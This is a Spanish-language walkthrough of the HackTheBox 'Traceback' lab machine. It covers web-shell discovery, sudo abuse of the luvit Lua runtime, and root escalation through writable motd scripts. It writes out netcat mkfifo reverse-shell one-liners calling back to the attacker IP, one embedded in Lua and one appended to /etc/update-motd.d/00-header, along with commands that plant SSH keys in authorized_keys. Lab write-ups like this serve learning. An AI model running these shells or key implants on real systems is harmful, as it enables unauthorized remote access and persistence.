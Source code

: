 ```yaml
---
title: HTB-TRACEBACK
author: Christian Gutierrez
date: 2020-11-19 14:10:00 -0500
categories: [HackTheBox, Medium]
tags: [HTB, SSH, NodeJS]
image: /assets/htb/01_traceback/portada.PNG
---
```

## Decripción del entorno
### <span style="color:green">Atacante</span>

| OS          | Kali Linux          |
| IP          | 10.10.15.14         |

### <span style="color:green">Maquina Objetivo</span>

| OS          | Linux               |
| IP          | 10.10.10.181        |
| Dificultad  | 4.8/10 / **Medium** |
| URL         | [**TraceBack**](https://www.hackthebox.eu/home/machines/profile/233)    |

## Enumeración
Se realiza la enumeración habitual para el reconocimiento e identificación de los puertos abiertos en el sistema: 
```console
$ nmap -sS -sV -sC -oN nmap_traceback 10.10.10.181
```
![Escaneo con Nmap](/assets/htb/01_traceback/01_nmap_scan.png)
_Resultado escaneo con nmap_

Se accede al puerto 80 y se infiere por contexto que el servidor ya tiene un WebShell, la cual hay que utilizar para continuar con el proceso de explotación. 
![Puerto 80](/assets/htb/01_traceback/02_puerto_80.png)
_Pagina web desplegada en el puerto 80_

Se saca un listado de las WebShell más conocidas <https://github.com/TheBinitGhimire/Web-Shells>, y se realiza un barrido utilizando **wFuzz** para identificar si alguna se encuentra persistente en el servidor: 
```console
$ wfuzz -w htb/01_traceback/webshells.dict --hc 404 http://10.10.10.181/FUZZ
```
Resultado: 
- cmd.php
    - Parametro: ?cmd=**COMANDO**
- smevk.php
    - User: **admin**
    - Password: **admin**

Una vez identificadas, se procede a validar el usuario y los privilegios que se tienen para la ejecución de comandos.
![WebShell Básica](/assets/htb/01_traceback/03_cmd_comandos_basicos.png)
_Usando shell cmd.php con comandos pwd, whoami e ifconfig_

### Usuarios de bajos privilegios
- webadmin [**Hacked**]
- sysadmin

Por medio de los Sudoers desde el usuario **webadmin** vemos que tenemos permisos para ejecutar un comando como el usuario **sysadmin**:
```console
$ sudo -l 
/home/sysadmin/luvit
```
De lo anterior se identifica que [luvit](https://luvit.io/) corresponde a un servicio **NodeJS** para el lenguaje **Lua** por lo que conserva su sintaxis y además es posible utilizarlo para ejecutar scripts **.lua** diseñados por nosotros; vamos a utilizar el metodo `os.execute()` que nos permite ejecutar comandos de sistema operativo en [LUA](https://stackoverflow.com/questions/13270346/lua-os-execute-does-not-work)

## Explotación

Una vez identificado el vector de ataque, vamos a utilizar una Shell reversa con **nc** a través de la ejecución privilegiada de `/home/sysadmin/luvit`, por lo que creamos el siguiente archivo **lua** en el directorio `/tmp/`:

```lua
os.execute("rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf")
```

Ejecutamos el archivo con los privilegios de **sysadmin** de la siguiente manera: 
```console
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/d.lua
```
Recibimos la conexión inversa mediante **NetCat**:
```console
$ nc -nvlp 4545
```
![Reverse Shell](/assets/htb/01_traceback/04_reverse_shell.png)
_Reverse Shell con privilegios del usuario sysadmin_

Aunque ya tenemos la shell con los privilegios **Sysadmin** que nos permiten la lectura de la flag `user.txt`, es más comodo poder conectarnos directamente al servicio SSH (22), para así tener más estabilidad y propiedades en la consola; para lograr esto, debemos agregar nuestra **llave pública SSH** al archivo `authorized_keys` del servidor victima, de esta manera, sin proporcionar credenciales podemos acceder a este. 
```console
$ echo “test” >> authorized_keys
Permission denied
```
Como no podemos realizarlo desde la shell que tenemos actualmente, creamos otro archivo **.lua** que cambie los privilegios del archivo "" y agregue nuestra key: 
```lua
file = io.open("/home/sysadmin/.ssh/authorized_keys", "w")
file:write("ssh-rsa AAAAB3NzaC1yc2EAAAADA/.../zWoMYWXUF8ZIOQp0= csl@support")
file:close()
```
Ejecutamos el nuevo script **LUA**: 
```console
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/d2.lua
```
Y accedemos al servidor mediante **SSH**: 
```console
$ ssh sysadmin@10.10.10.181
```
![SSH](/assets/htb/01_traceback/05_ssh_access.png)
_Acceso por SSH al usuario Sysadmin_

## Elevación de privilegios

Revisando los procesos en ejecución del sistema `ps aux`, vemos que el usuario root realiza la ejecución recurrente del siguiente comando. 
```console
$ /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```
Lo que inicialmente parece una copia de archivos normal entre directorios cada 30 segundos, nos revela una pista en los permisos del directorio `/etc/update-motd.d/`:
![SSH](/assets/htb/01_traceback/06_priv_etc_update.png)
_Permisos del directorio /etc/update-motd.d/_

Y recordemos que dicho directorio corresponde a los scripts de personalización de inicio o acceso mediante **SSH**, así pues, cada uno de esos script’s mostrará información o será ejecutado por el usuario **root** cuando alguien se conecta mediante **SSH**. De esta manera, si logramos algún cambio en estos scripts, lo podremos activar mediante el acceso a SSH que tenemos del usuario **Sysadmin**. 

Considerando lo anterior, agregamos el comando para que cuando se ejecute nos permita una conexión inversa a nuestro equipo, por el puerto 4545. 
```console
$ echo "rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf" >> /etc/update-motd.d/00-header
```
Una vez realizado, accedemos al servicio **SSH** con el usuario **Sysadmin** (para activa nuestro payload) y a su vez, recibimos la conexión inversa en nuestro equipo, esta vez con privilegios de **root**. 

Otra forma de acceder sin utilizar la shell reversa, implicaría el mismo principio de habilitar nuestras llaves en el servicio **SSH** del usuario **root**: 

```console
sysadmin@traceback:/etc/update-motd.d$ echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> 00-header 
```

Bytez ;)
